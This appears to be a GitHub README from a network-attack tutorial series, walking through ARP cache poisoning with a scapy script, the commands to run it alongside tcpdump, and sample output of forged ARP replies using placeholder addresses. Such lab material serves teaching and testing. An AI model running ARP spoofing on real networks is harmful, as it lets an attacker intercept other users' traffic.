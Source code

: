 # Attack/Test your network

<p align="left">
<img src="https://user-images.githubusercontent.com/17419002/171995583-fd060cfa-c17a-40f9-8f25-58006e7e06b5.png" width="40%" height="40%" />
</p>


## ARP Spoof

L2 attacks are not un-common in the network. Poisoning the ARP cache of a client for an attacker to be sent all packets to the attacker. With scapy it is incredibly simple to execute this attack.

## Run the code

### Terminal 1
On one terminal, run the tcpdump command using:

```
tcpdump -nn -s0 arp | grep 1.1.1.1
```

or if the above throws an error/permission issue:

```
sudo tcpdump -nn -s0 arp | grep 1.1.1.1
```

### Terminal 2

On another termninal, run the code:

```
python3 scapy-10-arp-cache-poisoning.py
```

or if the above throws an error/permission issue:

```
sudo python3 scapy-10-arp-cache-poisoning.py
```


## Sample Output:


#### [PYTHON]
```
$ sudo python3 scapy-10-arp-cache-poisoning.py

This will show the default packet with source ip and mac of the client.


###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = who-has
  hwsrc     = 00:50:56:bd:05:0a
  psrc      = 10.105.130.21
  hwdst     = 00:00:00:00:00:00
  pdst      = 0.0.0.0

-------------------
Notice the change in ARP code, i.e. op from who-has to is-at


###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = is-at
  hwsrc     = 00:50:56:bd:05:0a
  psrc      = 10.105.130.21
  hwdst     = 00:00:00:00:00:00
  pdst      = 0.0.0.0

-------------------
Notice the change in other fields of ARP


###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = is-at
  hwsrc     = 11:11:11:11:11:11
  psrc      = 1.1.1.1
  hwdst     = 22:22:22:22:22:22
  pdst      = 2.2.2.2

.
Sent 1 packets.
```

#### [TCPDUMP]

It takes a few seconds to show up the packets depending how much arp packets are coming to the box.

```
$ sudo tcpdump -nn -s0 arp | grep 1.1.1.1
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
04:56:29.792206 ARP, Reply 1.1.1.1 is-at 11:11:11:11:11:11, length 28
```

## Observation

This attack needs to be performed with sniffer and will be effective only if the attack packets reach after the original host replies overwriting the actual ip-mac binding on the target computer.

# Next
Click Here: [ARP Spoof Attack](09-Attack-02-ARP-Spoof.md)
